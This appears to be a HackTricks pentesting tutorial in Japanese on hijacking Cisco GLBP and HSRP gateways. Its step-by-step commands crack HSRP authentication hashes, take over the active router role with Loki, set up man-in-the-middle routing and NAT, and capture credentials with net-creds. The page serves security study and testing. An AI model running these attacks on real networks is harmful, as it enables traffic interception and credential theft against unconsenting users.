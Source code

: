 # GLBP & HSRP Attacks

<details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見る
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦で**フォロー**する：[**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* **ハッキングトリックを共有するには、[HackTricks](https://github.com/carlospolop/hacktricks)と[HackTricks Cloud](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## FHRPハイジャッキング概要

### FHRPについての洞察
FHRPは、複数のルータを1つの仮想ユニットに統合することで、ネットワークの堅牢性を提供するよう設計されており、負荷分散と障害耐性を向上させます。Cisco Systemsは、GLBPやHSRPなどの優れたプロトコルをこのスイートで導入しました。

### GLBPプロトコルの洞察
Ciscoの創造物であるGLBPは、TCP/IPスタック上で機能し、通信にはUDPポート3222を使用します。GLBPグループ内のルータは、3秒ごとに「hello」パケットを交換します。ルータがこれらのパケットを10秒間送信しない場合、オフラインと見なされます。ただし、これらのタイマーは固定されておらず、変更可能です。

### GLBPの動作と負荷分散
GLBPは、1つの仮想IPと複数の仮想MACアドレスを使用して、ルータ間で負荷を分散することができるため、際立っています。GLBPグループでは、すべてのルータがパケットの転送に関与します。HSRP/VRRPとは異なり、GLBPは次のメカニズムを通じて本物の負荷分散を提供します：

- **ホスト依存型負荷分散：** ホストに一貫したAVF MACアドレスを割り当て、安定したNAT構成に不可欠です。
- **ラウンドロビン負荷分散：** リクエストするホスト間でAVF MACアドレスの割り当てを交互に行うデフォルトのアプローチ。
- **重み付きラウンドロビン負荷分散：** 事前に定義された「重み」メトリクスに基づいて負荷を分散します。

### GLBPの主要なコンポーネントと用語
- **AVG（Active Virtual Gateway）：** MACアドレスをピアルータに割り当てる責任があるメインルータ。
- **AVF（Active Virtual Forwarder）：** ネットワークトラフィックを管理するために指定されたルータ。
- **GLBP優先度：** AVGを決定するメトリクスで、デフォルトは100から255までの範囲で始まります。
- **GLBP重み：** ルータ上の現在の負荷を反映し、手動で調整するか、オブジェクトトラッキングを介して調整できます。
- **GLBP仮想IPアドレス：** 接続されたすべてのデバイスのデフォルトゲートウェイとして機能します。

GLBPでは、予約されたマルチキャストアドレス224.0.0.102とUDPポート3222を使用して相互作用します。ルータは3秒ごとに「hello」パケットを送信し、パケットが10秒間欠落した場合は非稼働と見なされます。

### GLBP攻撃メカニズム
攻撃者は、最も高い優先度値（255）を持つGLBPパケットを送信することで、主要ルータになることができます。これにより、DoSやMITM攻撃が可能となり、トラフィックの傍受やリダイレクトが可能となります。

### Lokiを使用したGLBP攻撃の実行
[Loki](https://github.com/raizo62/loki_on_kali)は、優先度と重みが255に設定されたパケットを注入することでGLBP攻撃を実行できます。攻撃前の手順には、Wiresharkなどのツールを使用して、仮想IPアドレス、認証の有無、およびルータの優先度値などの情報を収集することが含まれます。

攻撃手順：
1. プロミスキャスモードに切り替えてIPフォワーディングを有効にします。
2. ターゲットルータを特定し、そのIPを取得します。
3. Gratuitous ARPを生成します。
4. AVGをなりすまして悪意のあるGLBPパケットを注入します。
5. 攻撃者のネットワークインターフェースにセカンダリIPアドレスを割り当て、GLBP仮想IPを反映させます。
6. 完全なトラフィックの可視性のためにSNATを実装します。
7. インターネットアクセスを元のAVGルータを介して継続するようにルーティングを調整します。

これらの手順に従うことで、攻撃者は自分自身を「中間者」として配置し、暗号化されていないまたは機密性の高いデータを含むネットワークトラフィックを傍受および分析できます。

デモンストレーションのために、必要なコマンドスニペットを以下に示します：
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### HSRPハイジャックのパッシブな説明とコマンドの詳細

#### HSRP（Hot Standby Router/Redundancy Protocol）の概要
HSRPは、ネットワークゲートウェイの冗長性のために設計されたCisco独自のプロトコルです。複数の物理ルータを1つの論理ユニットに構成し、共有IPアドレスを持つことができます。この論理ユニットは、トラフィックを管理するための指示を行う主要ルータによって管理されます。GLBPが優先度や重みなどのメトリクスを使用して負荷分散を行うのに対し、HSRPはトラフィック管理に単一のアクティブルータを使用します。

#### HSRPにおける役割と用語
- **HSRPアクティブルータ**: トラフィックフローを管理するゲートウェイとして機能するデバイス。
- **HSRPスタンバイルータ**: アクティブルータが故障した場合に引き継ぐ準備ができたバックアップルータ。
- **HSRPグループ**: 単一の強固な仮想ルータを形成するために協力するルータのセット。
- **HSRP MACアドレス**: HSRPセットアップ内の論理ルータに割り当てられた仮想MACアドレス。
- **HSRP仮想IPアドレス**: 接続されたデバイスのデフォルトゲートウェイとして機能するHSRPグループの仮想IPアドレス。

#### HSRPのバージョン
HSRPには、HSRPv1とHSRPv2の2つのバージョンがあり、主にグループ容量、マルチキャストIPの使用、および仮想MACアドレス構造が異なります。プロトコルは、サービス情報の交換に特定のマルチキャストIPアドレスを使用し、Helloパケットは3秒ごとに送信されます。パケットが10秒間受信されない場合、ルータは非アクティブと見なされます。

#### HSRP攻撃メカニズム
HSRP攻撃は、最大優先度値を注入することでアクティブルータの役割を強制的に引き継ぐことを含みます。これにより、中間者攻撃（MITM）が発生する可能性があります。攻撃前の重要なステップには、HSRPセットアップに関するデータを収集することが含まれ、Wiresharkを使用してトラフィックの分析を行うことができます。

#### HSRP認証のバイパス手順
1. HSRPデータを含むネットワークトラフィックを.pcapファイルとして保存します。
```shell
tcpdump -w hsrp_traffic.pcap
```
2. hsrp2john.pyを使用して.pcapファイルからMD5ハッシュを抽出します。
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. John the Ripperを使用してMD5ハッシュをクラックします。
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Lokiを使用したHSRPインジェクションの実行**

1. HSRP広告を特定するためにLokiを起動します。
2. ネットワークインターフェースをプロミスキャスモードに設定し、IPフォワーディングを有効にします。
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Lokiを使用して特定のルータをターゲットにし、クラックされたHSRPパスワードを入力し、アクティブルータを偽装するために必要な設定を行います。
4. アクティブルータの役割を取得した後、ネットワークインターフェースとIPテーブルを設定して正当なトラフィックを傍受します。
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. 以前のアクティブルータを介してトラフィックをルーティングするためにルーティングテーブルを変更します。
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. 傍受したトラフィックから資格情報をキャプチャするためにnet-creds.pyまたは類似のユーティリティを使用します。
```shell
sudo python2 net-creds.py -i eth0
```

これらの手順を実行することで、攻撃者はGLBPハイジャックの手順と同様にトラフィックを傍受および操作する立場に置かれます。これは、HSRPなどの冗長性プロトコルの脆弱性と堅牢なセキュリティ対策の必要性を示しています。
